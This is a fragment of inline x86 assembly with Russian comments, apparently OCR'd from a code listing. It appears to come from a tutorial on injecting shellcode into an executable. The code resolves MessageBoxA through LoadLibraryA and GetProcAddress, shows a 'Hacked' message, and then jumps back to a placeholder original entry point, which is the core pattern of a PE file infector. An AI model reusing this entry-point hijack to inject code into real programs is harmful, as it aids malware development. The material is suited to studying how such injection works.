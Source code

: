             sub esp, 12
            mov ebx, esp
            mov byte ptr[ebx], 0x4d //M
            mov byte ptr[ebx + 1], 0x65 //e
            mov byte ptr[ebx + 2], 0x73 //s
            mov byte ptr[ebx + 3], 0x73 //s
            mov byte ptr[ebx + 4], 0x61 //a
            mov byte ptr[ebx + 5], 0x67 //g
            mov byte ptr[ebx + 6], 0x65 //e
            mov byte ptr[ebx + 7], 0x42 //B
            mov byte ptr[ebx + 8], 0x6f //o
            mov byte ptr[ebx + 9], 0x78 //x
            mov byte ptr[ebx + 10], 0x41 //A
            mov byte ptr[ebx + 11], 0x0
 
            /*
                Достаем значение, сохраненное после возврата LoadLibraryA
                Вызов GetProcAddress выглядит так:
                esi(saved eax{address of user32.dll module}, ebx {the string "MessageBoxA"})
            */
 
            mov eax, [esp + 12]
            push ebx; MessageBoxA
            push eax; базовый адрес user32.dll, который получили с помощью LoadLibraryA
            call esi; адрес GetProcAddress :))
            add esp, 12
 
        sub esp, 8
        mov ebx,esp
        mov byte ptr[ebx], 72; H
        mov byte ptr[ebx + 1], 97; a
        mov byte ptr[ebx + 2], 99; c
        mov byte ptr[ebx + 3], 107; k
        mov byte ptr[ebx + 4], 101; e
        mov byte ptr[ebx + 5], 100; d
        mov byte ptr[ebx + 6], 0
 
        push 0
        push 0
        push ebx
        push 0
        call eax
        add esp, 8
 
        mov eax, 0xdeadbeef ; Оригинальная точка входа
        jmp eax
    }
 
    __asm{
        over:
        mov eax, loc2
        mov [end],eax
        loc2:
    }
 